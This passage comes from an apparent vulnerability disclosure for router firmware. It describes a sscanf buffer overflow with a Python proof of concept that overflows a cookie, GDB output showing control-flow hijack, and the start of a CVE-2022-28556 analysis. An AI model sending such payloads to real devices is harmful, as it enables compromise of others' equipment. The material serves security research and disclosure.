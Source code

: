After entering the if section, `url` also cannot be `inde.html`.

Finally enter the if the section that `sscanf` reads the user input, if we construct the payload properly, it can cause buffer overflow. 

Here is a simple POC:

```python
#!/usr/bin/python

from pwn import *
import requests


ip = "10.10.10.1"
url = "http://%s/goform/execCommand" % ip
cookies = {"Cookie" : "password=" + "A" * 456 + "BBBB"}
ret = requests.get(url=url,cookies=cookies)
print(ret.text)
```

GDB view (successfully hijack the control flow to `0x42424242`):

```
 R0   0x0
*R1   0xff605268 <- 0
 R2   0x0
 R3   0x0
*R4   0x41414141 ('AAAA')
*R5   0x41414141 ('AAAA')
*R6   0x41414141 ('AAAA')
*R7   0x41414141 ('AAAA')
*R8   0xe5d0 <- mov    ip, sp /* 0xe1a0c00d */
*R9   0x2dd04 <- push   {r4, fp, lr} /* 0xe92d4810 */
*R10  0xfffef6b8 <- 0
*R11  0x41414141 ('AAAA')
*R12  0xff74dedc -> 0xff743a50 <- mov    r3, r0 /* 0xe1a03000 */
*SP   0xfffeec58 -> 0x103f00 <- ldrbvs r0, [r0, r0]! /* 0x67f00000 */
*PC   0x42424242 ('BBBB')
```

### CVE-2022-28556

This vulnerability happened in the function `formSetPPTPServer`. It uses `sscanf` to format the data from the HTTP requests. However, it doesn't correctly limit the length of the input. 

It first gets the parameter of `serverEn, startIp, endIp` from the post request. Then, it checks if `serverEn = 0`, if not, then check if `serverEn = 1`, if it equals 1, and if both `startIp` and `endIp` have data in it, the control flow will reach the vulnerable `sscanf` part.

![SetPptpServerCfg_code1](assets/SetPptpServerCfg_code1.png)


![SetPptpServerCfg_code2](assets/SetPptpServerCfg_code2.png)
